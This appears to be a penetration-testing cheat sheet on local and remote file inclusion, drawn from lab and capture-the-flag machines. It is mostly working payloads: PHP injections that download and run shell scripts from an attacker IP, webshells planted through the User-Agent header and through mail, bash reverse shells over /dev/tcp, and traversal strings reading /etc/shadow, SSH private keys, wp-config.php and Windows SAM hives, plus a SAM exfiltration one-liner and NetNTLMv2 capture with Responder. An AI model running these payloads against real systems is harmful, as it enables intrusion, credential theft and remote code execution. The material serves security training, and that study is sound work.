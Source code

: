 # LFI/RFI

<details>

<summary>Signs</summary>

* Files being included in Get parameter

- Able to view file extensions (eg: french.html)

</details>

<details>

<summary>Method</summary>

#### Method

1. Try to view the server file (view the blacklist)
2. Log poisoning
3. Find Interesting files to read

[https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf](https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-\(lfi\).pdf)

</details>

<details>

<summary>Advanced LFI</summary>

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert)

```bash
' and die(show_source('/etc/passwd')) or '
```

```php
'+and+die(system("wget+http%3a//192.168.45.5/shell.sh+-O+/tmp/shell.sh%3bchmod+777+/tmp/shell.sh%3b/tmp/shell.sh"))+or+'
```

```bash
' and die(system("curl http://192.168.45.5/shell.php|php")) or '
```

</details>

<details>

<summary>Base64-encoded LFI</summary>

```bash
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

### Export the wp-config.php and save as base64

```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php
```

</details>

<details>

<summary>User-Agent LFI</summary>

* Sometimes it's impt to use `"` as `'` is being used by the database to define the entire string (Putting Webshell in PHPLiteAdmin DB)

```php
User-Agent:<?php system($_GET['cmd']); ?>
```

```php
User-Agent:<?php system($_REQUEST["cmd"]); ?>
```

```php
User-Agent:<?php echo shell_exec($_GET["cmd"]);?>
```

</details>

<details>

<summary>LFI to RCE (Filter Chaining)</summary>

Use [https://github.com/Tanguy-Boisset/LFI-to-RCE-filters](https://github.com/Tanguy-Boisset/LFI-to-RCE-filters)

LFI is present in: `http://172.16.1.10/nav.php?../../../../etc/passwd`

```bash
python3 lfi-to-rce.py http://172.16.1.10/nav.php page
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>LFI To RCE (Log poisoning)</summary>

* Linux

<pre class="language-bash"><code class="lang-bash"><strong>view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&#x26;cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php
</strong></code></pre>

* WIndows

```bash
?page=../../../../../xampp/apache/logs/access.log
```

User-Agent:\<?php system($\_GET\['cmd']) ?>

RCE:

[http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami ](http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami)

</details>

<details>

<summary>LFI To RCE (Mail Method)</summary>

#### Send email to asterisk user (LFI /etc/passwd to determine user)

```bash
swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
```

#### Able to obtain RCE (webshell)

```bash
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

![](<../.gitbook/assets/image (105).png>)

</details>

<details>

<summary>Testing for RFI</summary>

```php
<?php echo shell_exec('echo abc > /tmp/test.txt');echo file_get_contents('/tmp/test.txt');?> 
```

</details>

<details>

<summary>RFI Rev shell</summary>

```bash
http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec('bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.68%2F443%200%3E%261');?>
```

* Have to url-encode the rev shell payload in `shell_exec()`

```php
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

</details>

<details>

<summary>Finding interesting files to read</summary>

Use Burpsuite --> Intruder --> wordlist: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

</details>

<details>

<summary>Interesting files (Linux)</summary>

* /etc/passwd&#x20;
* /etc/shadow&#x20;
* /etc/issue&#x20;
* /etc/group&#x20;
* /etc/hostname&#x20;
* /etc/ssh/ssh\_config&#x20;
* /etc/ssh/sshd\_config&#x20;
* /root/.ssh/id\_rsa&#x20;
* /root/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/id\_rsa

```
RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access_log
Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log
FreeBSD Apache access log file location – /var/log/httpd-access.log
```

* /etc/httpd/logs/access\_log&#x20;
* /etc/httpd/logs/error\_log
* &#x20;/var/www/logs/access\_log&#x20;
* /var/www/logs/access.log&#x20;
* /usr/local/apache/logs/access\_ log&#x20;
* /usr/local/apache/logs/access. log&#x20;
* /var/log/apache/access\_log&#x20;
* /var/log/apache2/access\_log&#x20;
* /var/log/apache/access.log&#x20;
* /var/log/apache2/access.log&#x20;
* /var/log/access\_log

</details>

<details>

<summary>Interesting files (Windows)</summary>

* /windows/system32/drivers/etc/hosts&#x20;

- ./../../xampp/apache/conf/httpd.conf
- ../../../xampp/password
- ../../../../../../Program Files/FileZilla Server/FileZilla Server.xml
- /boot.ini&#x20;
- /autoexec.bat&#x20;
- c:\xampp\htdocs\\...

### SAM Files & SECURITY FILES&#x20;

```bash
Systemroot is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM


%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

* Just wget the files

```bash
wget "http://10.3.3.190/..%5C..%5C..%5CWindows/system32/config/RegBack/SAM.OLD"
```

</details>

<details>

<summary>Exfiltrating Binary Data Embedded in HTML Tags</summary>

```bash
 wget -qO- 'http://X.X.X.X/vulnpage?vulparam=..\..\..\..\..\..\..\..\..\..\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\s*(.*?)\s*<\/title/si' > SAM
```

</details>

<details>

<summary>Capturing NetNTLMv2 from RFI</summary>

Using a protocol like SMB, victim will try to authenticate to our machine, and we can capture the NetNTLMv2. A NetNTLMv2 challenge / response is a string specifically formatted to include the challenge and response.&#x20;

On Attacker:

```bash
responder -I tun0
```

On Victim:

```
http://unika.htb/?page=//10.10.14.25/whatever
```

</details>

<details>

<summary>Shortening LFI Query</summary>

### Example (checking for keyword in LFI query)

LFI found:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../../../etc/passwd
```

Filter is actually checking for the presence of `ninevehNotes.txt`

So the LFI query can be simplified to:

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../etc/passwd
```

</details>

<details>

<summary>Apache 2.4.49</summary>

```bash
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/anita/.ssh/id_ecdsa
```

</details>

<details>

<summary>Links</summary>

[https://oscp.infosecsanyam.in/web-application/lfi](https://oscp.infosecsanyam.in/web-application/lfi)

</details>

<details>

<summary>How to know if file is present but unable to be viewed currently?</summary>

`/nav.php?page=../../../../var/www/html/wordpress/wp-config.php` --> Status code 500

means that file is present but unable to be viewed --> need b64 encode

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php`

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

OTHERWISE, if file is not present --> Status code 200

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

OR if file is present and viewable --> Status Code 200

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>
